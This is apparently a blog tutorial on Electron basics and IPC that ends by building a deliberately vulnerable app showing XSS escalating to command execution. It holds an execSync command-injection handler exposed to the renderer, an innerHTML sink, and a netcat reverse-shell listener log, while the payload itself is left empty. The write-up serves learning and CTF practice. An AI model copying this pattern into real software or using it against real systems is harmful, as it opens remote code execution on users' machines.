

1. Electron is a technology that allows developers to use JavaScript to create desktop application.
	1. It achieves this by running a chromium instance for each window. Very wasteful imo
2. This writeup is mostly content from the [Electron Official Tutorial](https://www.electronjs.org/docs/latest/tutorial/tutorial-prerequisites), but I added an intentionally vulnerable Electron app that allows XSS to turn into RCE as the last example.
3. In Electron, "app" and "BrowserWindow" are two important concepts.
	1. BrowserWindow is an instance of Chromium that is running. Whenever we open a window, a new BrowserWindow is created. Users can directly call functions in the BrowserWindow.
	2. App is kind like engine that manages the "backend" stuff. Users are not able to directly call functions in the app.
## Simple Electron App
1. Initialize NPM dependencies
```
npm init
npm install electron --save-dev 
```
2. Add the following to scripts field
```json
{
  // ...
  "main": "main.js",
  "scripts": {
    "start": "electron .",
    "test": "echo \"hello world\" && exit 1"
  },
  // ...
}
```
3. `index.html` is the HTML code that will be rendered
```html
<!DOCTYPE html>
<html>
  <head>
    <title>Hello from Electron renderer!</title>
  </head>
  <body>
    <h1>Hello from Electron renderer!</h1>
    <p>👋</p>
  </body>
</html>
```
4. In the `main.js` file.
```js
const { app, BrowserWindow } = require('electron')

// this part defines the Window
const createWindow = () => {
  const win = new BrowserWindow({
    width: 800, // specify the dimensions
    height: 600
  })

  win.loadFile('index.html')
}

app.whenReady().then(() => { // listens for the 'ready' event. Better than app.on('ready', () => { apparently
  createWindow()
})
```
- [`ready`](https://www.electronjs.org/docs/latest/api/app#event-ready)  event documentation
5. To enable debugging, we can use this vscode config
```json
{
  "version": "0.2.0",
  "compounds": [
    {
      "name": "Main + renderer",
      "configurations": ["Main", "Renderer"],
      "stopAll": true
    }
  ],
  "configurations": [
    {
      "name": "Renderer",
      "port": 9222,
      "request": "attach",
      "type": "chrome",
      "webRoot": "${workspaceFolder}"
    },
    {
      "name": "Main",
      "type": "node",
      "request": "launch",
      "cwd": "${workspaceFolder}",
      "runtimeExecutable": "${workspaceFolder}/node_modules/.bin/electron",
      "windows": {
        "runtimeExecutable": "${workspaceFolder}/node_modules/.bin/electron.cmd"
      },
      "args": [".", "--remote-debugging-port=9222"],
      "outputCapture": "std",
      "console": "integratedTerminal"
    }
  ]
}
```
6. To start the application,
```
npm run start
```
Output:

## Exposing Inter-Process Functions to Client Side
1. `preload.js` allows us to expose certain functions into client-side processes.
2. A BrowserWindow's preload script runs in a context that has access to both the HTML DOM and a limited subset of Node.js and Electron APIs.
3. To add features to your renderer that require privileged access, you can define [global](https://developer.mozilla.org/en-US/docs/Glossary/Global_object) objects through the [contextBridge](https://www.electronjs.org/docs/latest/api/context-bridge) API.
4. Use `contextBridge` in  `preload.js` 
```js
const { contextBridge } = require('electron')

contextBridge.exposeInMainWorld('exec', {
  ping: () => "pong"
})
```
5. To tell browserWindow to preload a user-defined script,
```js
const { app, BrowserWindow } = require('electron')

const path = require('node:path')

const createWindow = () => {
  const win = new BrowserWindow({
    width: 800,
    height: 600,
    webPreferences: {
      preload: path.join(__dirname, 'preload.js') // define preload field in webPreferences
    }
  })

  win.loadFile('index.html')
}

app.whenReady().then(() => {
  createWindow()
})
```
6. Write HTML code that invokes the JavaScript function `id`
```html
<!DOCTYPE HTML>
<html>
	<head></head>
	<body>
		<p id="a"></p>
		<script>
      const information = document.getElementById('a')
      async function getPing(){
        information.innerText =  await window.exec.ping()
      }
      getPing()
		</script>
	</body>
</html>
```
## Exposing Functions that Calls Other Libraries to Client Side
1. First, we need to establish a 2-way communication between the browser window and app in `preload.js` with [`ipcRenderer`](https://www.electronjs.org/docs/latest/api/ipc-renderer)
```js
const { contextBridge, ipcRenderer } = require('electron/renderer')

contextBridge.exposeInMainWorld('electronAPI', {
  pwn: (cmd) => ipcRenderer.invoke('command:exec', cmd)
}) 
```
- This means that we can access `window.electronAPI.pwn` in the client-side JavaScript
- `window.electronAPI.pwn` will throw `command:exec` event to `main.js`
- `ipcRenderer.invoke('command:exec', cmd)` means that we can call this event via `window.electronAPI.pwn(cmd)`
2. We must register a listener for `command:exec` in `main.js`
```js
const { app, BrowserWindow, ipcMain} = require('electron/main')
const path = require('node:path')
const {execSync} = require('node:child_process')

async function execCommand (event, args) { // this function will be executed
  console.log(args)
  return execSync(args).toString()
}

function createWindow () {
  const mainWindow = new BrowserWindow({
    webPreferences: {
      preload: path.join(__dirname, 'preload.js')
    }
  })
  mainWindow.loadFile('index.html')
}

app.whenReady().then(() => {
  ipcMain.handle('command:exec', execCommand) // register a listener for command:exec in app from the browserWindow
  // execCommand will be executed
  createWindow()
  app.on('activate', function () {
    if (BrowserWindow.getAllWindows().length === 0) createWindow()
  })
})

app.on('window-all-closed', function () {
  if (process.platform !== 'darwin') app.quit()
}) 
```
- `ipcMain.handle('command:exec', execCommand)` registers the event and specifies which function will handle the event
- The function will always accept at least one parameter. The first is `event`, which passes info about the event. The second parameter onwards are the parameters sent by the client.
3. To achieve remote code execution, open Developer console and enter
```js
window.electronAPI.pwn("id")
```

## XSS -> RCE in Electron
1. First, we identify that there is a command injection vulnerability in the code in `execCommand`
```js
// main.js
const {app, BrowserWindow, ipcMain} = require("electron");
const path = require("node:path");
const {execSync} = require("node:child_process");

const initWindow = () =>{
	const win = new BrowserWindow({
		webPreferences: {
			preload: path.join(__dirname, 'preload.js')
		}
	});
	win.loadFile("index.html");
}

const execCommand = (event, cmd) =>{
	console.log(cmd);
	return execSync(cmd).toString(); // We can execute arbitrary code here
}

app.whenReady().then(()=>{
	ipcMain.handle('command:exec', execCommand);
	initWindow();
})

```
2. Notice `ipcMain.handle('command:exec', execCommand);`. This means that when the client-side throws a command:exec event, it will be handled by execCommand function
3. Let's check the `preload.js` which is injected into each new client process
```js
// preload.js
const {contextBridge, ipcRenderer} = require('electron')

contextBridge.exposeInMainWorld('pwn',{
	exec: (cmd) =>  ipcRenderer.invoke('command:exec', cmd)
})
```
- This means that there exists a API in the client side called `window.pwn.exec`
- `exec: (cmd) =>` means that this command accepts 1 parameter
- `ipcRenderer.invoke('command:exec', cmd)` means that this command throws `command:exec` event 
- So, we can trigger the command injection vulnerability with `window.pwn.exec(cmd)`
4. First, we confirm that we can achieve XSS

It is due a sink here
```HTML
<!DOCTYPE HTML>
<html>
	<head></head>
	<body>
		<form id="myform">
			<input id="input" type="text"></input>
			<input type="submit"></input>
		</form>
		<div id="output"></div>
		<script>
		const inputElement = document.getElementById("input");
		const outputElement = document.getElementById("output");
		const form = document.getElementById("myform");
		function handleFormSubmit(event) {
			event.preventDefault(); 
			outputElement.innerHTML = inputElement.value; // sink
		}
		form.addEventListener("submit", handleFormSubmit);

		</script>
	</body>
</html>
```
5. We can get a reverse shell via XSS
Payload
```html

```
Output:
```
nc -lvnp 7777
listening on [any] 7777 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 36742
whoami
kali
```
## References
1. This blog post is inspired by Reunion CTF 2026 - ClientSide. I wanted to solve the challenge but couldn't get it to work locally. Special thanks to the creator for this interesting challenge and solutions.
2. Main references:
	1. https://www.electronjs.org/docs/latest/api/app
	2. https://www.electronjs.org/docs/latest/tutorial/tutorial-prerequisites